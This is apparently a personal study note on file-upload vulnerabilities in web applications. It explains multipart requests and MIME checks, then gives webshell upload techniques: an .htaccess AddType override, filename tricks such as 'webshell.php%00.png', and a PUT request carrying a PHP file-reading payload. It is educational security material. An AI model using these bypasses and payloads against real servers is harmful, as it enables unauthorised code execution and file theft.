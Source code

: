 #Flawed file type validation: 

> Content-Type:application/x-www-form-url-encoded

used to send things containing text eg-> name, email, address and credit-card inforamtion etc...

`for sending binary mixed data like: image, pdf etc..`

> Content-Type: multipart/form-data

## HTTP request for uploading an image:
--- 

```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------0123456789012345678901234

```

as you can see `Content-Disposition` header which will give you some basic information 
about what kind of data is send in the request


#MIME-type: 
A media type (also known as a `Multipurpose Internet Mail Extensions` or MIME type) indicates 
the nature and format of a document, file, or assortment of bytes. 
MIME types are defined and standardized in IETF's RFC 6838. 

One way that websites may attempt to validate file uploads is to check that this input-specific 
`Content-Type` header matches an expected MIME type. If the server is only expecting image files, 
	for example, it may only allow types like image/jpeg and image/png. 
	Problems can arise when the value of this header is implicitly trusted by the server.

	`Note: for a website first line of defense is: **to prevent upload of any malicious file to server**
	if one is unluckely compromised then **Second line of Defense is**:
	stop the server from executing any scripts that do slip through the net.`



	note2: Web servers often use the filename field in multipart/form-data requests to 
	determine the name and location where the file should be saved. 



# Insufficient blacklisting of dangerous file types:
    
websites now a days try to prevent webshell execution by blacklisting malicious file extensions like `.php`
but developers are not sometimes experinced enough to block all sorts of file extension or aka lesser known file extensions
such as `.php5 and .shtml`. 



## how to bypass firewall defense when uploading a webshell throws an error like 403 forbidden:

try to look closely at the `http-headers of the 403 Forbidden` response and **get the idea what kind of server is being used by the web-application**


>if you see a web server header is saying `Apache` means there is a chance to upload webshell via changing the configs of a file 
    called `.htaccess`

```
    changing .htaccess files will give you permission to upload malicious files on the server and make server execute that
```


# how to manupulate .htaccess files to upload webshell and execute it

- step1: filename=".htaccess"  selecting this file on the webserver

- step2: Content-Type: text/plain  for injection text input

- step3:  AddType application/x-httpd-php .lsdfahad   means we're commanding to execute all `.lsdfahad` extension files as a `.php`


if you get 200ok response code means you literally edited the .htaccess file of the apache webserver


## sometimes multiple line of defense can be bypassed just via file obfuscation(i.e making it unreadible by humans)

in file upload vulnrablity this is how its done just by sending null byte injection:

> filename="webshell.php%00.png"

> filename="webshell.php.png"

> filename="webshell.php;.png"

> filename="webshell.php/.png"




## Uploading files using PUT

It's worth noting that some web servers may be configured to support PUT requests. If appropriate defenses 
aren't in place, this can provide an alternative means of uploading malicious files, even when 
an upload function isn't available via the web interface.

```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

> note: to check weather `PUT method` is available or not always send `OPTIONS` method for checking


